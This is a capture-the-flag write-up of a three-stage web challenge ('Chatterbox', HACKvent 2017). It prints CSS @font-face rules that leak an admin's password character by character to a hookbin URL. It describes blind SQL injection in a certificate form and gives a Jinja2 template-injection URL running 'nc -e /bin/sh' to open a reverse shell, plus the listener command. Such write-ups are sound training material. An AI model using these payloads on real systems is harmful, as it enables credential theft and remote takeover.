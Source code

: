 # Day 24: Chatterbox

*... likes to talk*

I love to chat secure and private.

For this I mostly use http://challenges.hackvent.hacking-lab.com:1087.

It's easy to create a private chat and start chatting without a registration.

[Chatterbox](http://challenges.hackvent.hacking-lab.com:1087/)

Hint #1: The admin is a lazy clicker boy and only likes `<a href="..."></a>`  
Hint #2: As a passionate designer, the admin loves different fonts.  
Hint #3: For step 2: I'd better be my own CA.  
Hint #4: For step 2: It's all about the state  
Hint #5: For step 3: python programmers don't need {{ ninjas }}

### Solution

This challenge had three separate stages.

#### Stage 1: CSS injection

The Chatterbox was running on port [1087](http://challenges.hackvent.hacking-lab.com:1087/).

As a regular user I was able to create a private channel with my own CSS. This was very suspicious right from the beginning. Some form of CSS injection? But which and how?

The first hint indicated that it is possible to invite admin to my private channel. It didn't seem so because admin silently joined the channel but didn't respond to any post. I verified his presence by modifying CSS to send GET request to my hookbin on load.

The second hint about fonts sent me to the right direction and I found this [article](http://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) about @font-face unicode-range vulnerability.

I downloaded original chatterbox CSS and added section like this for each printable character.

```css
@font-face { /* 'a' */
    font-family: pwn;
    src: url("https://hookb.in/E5V2ANXB?char=a");
    unicode-range: U+0061;
}
``` 

It defines my own fictional `pwn` font family and uses hookbin to capture requests for individual characters.

The last step was to add this font family to HTML element `password`.

```css
#password {
    font-family: pwn;
}
```

Complete CSS code can be found [here](files/styles-pwn.css).

Then I invited admin to my channel with this CSS and checked requests captured in my hookbin.

The admin's password was:

```
Christmas2017
```

I simply used it to login and then I got redirected to the [second stage](http://challenges.hackvent.hacking-lab.com:1088?key=E7g24fPcZgL5dg78).

#### Stage 2: SQL injection

The Message Board Admin Panel was running on port [1088](http://challenges.hackvent.hacking-lab.com:1088?key=E7g24fPcZgL5dg78).

This stage contained *Tools* section with a form which generated certificate based on submitted CRS.

Hints 3 and 4 directed me to the `state` field of CSR which suffered from SQL injection. I wrote a script which used blind time-based SQLi on that field to find useful data in the underlying database. It was very time consuming part but I managed to extract link to the last stage from column `private_key` of the first row of table `hv24_2.keystorage`. It contained this value:

```
challenges.hackvent.hacking-lab.com:1089?key=W5zzcusgZty9CNgw
```

#### Stage 3: Template injection

The Easy Webshop was running on port [1089](http://challenges.hackvent.hacking-lab.com:1089?key=W5zzcusgZty9CNgw).

The last hint indicated it has something to do with SSTi vulnerability. I quickly realized it's referencing to [Jinja2](http://jinja.pocoo.org/docs/2.10/) templating engine for Python.

I found this useful [article](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which showed me how to exploit that vulnerability. I found that URL path is vulnerable but it took me some time to put all the necessary things together and make it work.

I started local netcat opened for incoming connections: 

```bash
ncat -p 44444 -k -v -l
```

Then I hit the following URL to get the reverse connection with shell to my local netcat.

```
http://challenges.hackvent.hacking-lab.com:1089/product%7b%7b%20''.__class__.__mro__[1].__subclasses__()[37](['nc -e /bin/sh 94.112.XXX.XXX 44444'],shell=True).communicate()%20%7d%7d?key=W5zzcusgZty9CNgw
```

The last step was to use the remote shell through the local netcat instance.

```bash
$ cat /home/flag
HV17-7h1s-1sju-t4ra-nd0m-flag
```

The result flag:

```
HV17-7h1s-1sju-t4ra-nd0m-flag
```